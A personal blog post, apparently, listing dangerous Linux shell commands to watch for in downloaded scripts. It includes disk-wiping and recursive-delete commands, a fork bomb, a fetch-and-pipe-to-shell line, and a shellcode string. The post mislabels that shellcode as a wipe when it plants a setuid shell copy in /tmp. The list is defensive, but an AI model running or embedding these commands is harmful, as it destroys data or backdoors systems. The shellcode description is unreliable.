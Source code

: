 ```yaml
---
title: Bash deadly commands
date: 2014-03-23
tags:
  - shell
  - linux
  - security
categories:
  - base_commands
author_profile: true
draft: false
comments: false
slug: bash-deadly-commands
---
```


This is a list of dangerous commands you should never use and you should make sure are not into some script you downloaded from internet before using it. As similar list are all over the place in internet, is difficult to credit ownership to someone. I collected them from different sources for my personal record and easyness of use.

_Note_ that some need root priviledges to be run (starting with `#`) while others do not (starting with `$`).

### 1. Destroy everything

Remove recursively everything starting from the `/` folder or your home `~`. In the latter case user permissions are enough.

```bash
# ! Requires root priviledges
~# rm -rf /
~# rm -rf /*
~# rm -rf *

# ! Does NOT require root priviledges
~$ rm -rf ~
```

### 2. Destroy everything (hex version)

Like the former but in exadecimal. Very dangerous since can be put in a script and if you don't recognize it you could have a lot of troubles.

```bash
char esp[] __attribute__ ((section(".text"))) /* e.s.p release */
= "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
```

### 3. New filesystem

To create a new filesystem on a partition automatically destroys everything on it. Needs root proviledges.

```bash
~# mkfs -t ext4 /dev/sda2
```

### 4. Forkbomb

It creates recursively new instances of itself until the system freezes. The problem can be solved simply hard rebooting the whole system. Not really a huge problem on your laptop, but a system administrator on a server won't be happy.

```bash
~$ :(){:|:&};:
```

### 5. Output to filesystem

Overwrites the data on a filesystem with the output of the command command. The overwritten data are unrecoverable.

```bash
~# command > /dev/sda2
```

### 6. Download and execute

Never download and execute script from untrusted sources without checking them carefully before.

```bash
~$ wget http://whatever.org/file -O - | sh
```

### 7. Send to nowhere

Moves something to null, the big void. Your data will simply evaporates.

```bash
~$ mv /path/folder /dev/null
```

### 8. Wipe the disk

This covers the disk with zeros from the zeros. Corresponds to a low level formatting.

```bash
~# dd if=/dev/zero of=/dev/sda
```

### 9. Wipe the disk (version 2)

Like the former but with random data instead of zeros.

```bash
~# dd if=/dev/urandom of=/dev/sda
```

### 10. Doors open

Gives all the permissions to everybody on the whole system recursively. Not really good on your laptop, destructive on a server.

```bash
~# chmod -R 777 /
```

### 11. History

It executes again everything is in the history. Imagine your system re-executing the 1000000 commands you have stored in your history, moving, creating, deleting. It will be long to fix the mess.

```bash
~$ source ~/.bash_history
```

### 12. Permissions blackhole

Makes everything non executable. Not a single binary will be executable any more. Neither the `chmod` one...

```bash
~# chmod -R -x /
```
